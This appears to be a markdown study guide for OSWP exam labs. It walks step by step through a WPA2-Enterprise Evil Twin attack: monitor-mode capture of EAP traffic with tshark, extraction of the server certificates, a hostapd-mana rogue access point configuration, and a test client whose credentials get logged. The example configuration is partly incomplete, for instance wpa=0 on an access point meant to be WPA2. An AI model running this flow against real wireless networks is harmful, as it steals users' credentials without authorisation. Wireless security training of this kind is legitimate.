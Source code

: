 
# 🛡️ WPA2-Enterprise / Evil Twin Attack Flow (OSWP - CLI only)

## 📍 Goal
Simulate a WPA2-Enterprise Evil Twin attack in a SSH-only lab, using only CLI tools. The objective is to:
- Capture the authentication handshake
- Analyze EAP communications
- Extract useful information (CA, server certs)
- Replay the attack using hostapd-mana
- Connect with wpa_supplicant for testing

---

## 1. 📡 Monitor Interface Setup
```bash
sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor
sudo ip link set wlan0 up
```

> 🎯 *We put the interface in monitor mode to sniff all wireless traffic.*

---

## 2. 🎯 Capturing EAP Traffic
```bash
sudo tshark -i wlan0 -w enterprise.pcap -Y "eap || eapol"
```

> 📦 *We use `tshark` to capture packets and save them to a PCAP file while filtering only for EAP-related frames.*

Let it run while a client authenticates to the real WPA2-Enterprise network.

---

## 3. 🔍 Analyze EAP handshake
```bash
tshark -r enterprise.pcap -Y "eap" -T fields -e frame.number -e eap.code -e eap.type -e eap.identity
```

> 🧠 *Here we identify the type of EAP exchange and the identity revealed by the supplicant. Useful for determining whether it’s PEAP, TTLS, TLS, etc.*

---

## 4. 🧾 Check Certificate Info
```bash
tshark -r enterprise.pcap -Y "tls.handshake.certificate" -V | less
```

> 🔐 *We look for TLS handshake messages to extract info about the server certificate chain. Look for Common Name (CN), issuer (CA), and expiration.*

---

## 5. 🧪 Extract Certificates
```bash
tshark -r enterprise.pcap -Y "tls.handshake.certificate" -T fields -e tls.handshake.certificate
```
Then use:
```bash
base64 -d <<< "<paste_base64_cert_here>" > cert.der
openssl x509 -inform DER -in cert.der -text -noout
```

> 🧬 *Extract the server's certificate from the PCAP, convert it, and analyze its contents.*

---

## 6. 🏴‍☠️ Set up hostapd-mana (Evil Twin)
Minimal config example `mana.conf`:
```
interface=wlan0
ssid=FakeCorp
channel=6
logger_syslog=-1
logger_stdout=0
driver=nl80211
ieee8021x=1
auth_algs=1
wpa=0
eap_server=1
ca_cert=ca.pem
server_cert=server.pem
private_key=server.key
private_key_passwd=whatever
```
Run:
```bash
sudo hostapd-mana mana.conf
```

> 🎣 *We use hostapd-mana to spawn a rogue AP that mimics the original WPA2-Enterprise network, using the previously extracted certs or fake ones signed with same CA.*

---

## 7. 🤖 wpa_supplicant (Client Side)
Sample config `client.conf`:
```
network={
    ssid="FakeCorp"
    key_mgmt=WPA-EAP
    eap=PEAP
    identity="testuser"
    password="password123"
    ca_cert="ca.pem"
    phase2="auth=MSCHAPV2"
}
```
Run:
```bash
sudo wpa_supplicant -i wlan1 -c client.conf -dd
```

> 📶 *This simulates a client attempting to connect to our rogue AP. We monitor and capture credentials in `/tmp/hostapd.credout` or via stdout.*

---

## ✅ Wrap-up
You’ve:
- Captured and dissected a WPA2-Enterprise handshake
- Extracted certs from TLS handshake
- Replicated the network and tricked clients
- Logged EAP credentials via hostapd-mana

This flow is 100% CLI-compatible and tailored for OSWP-style environments without GUI.
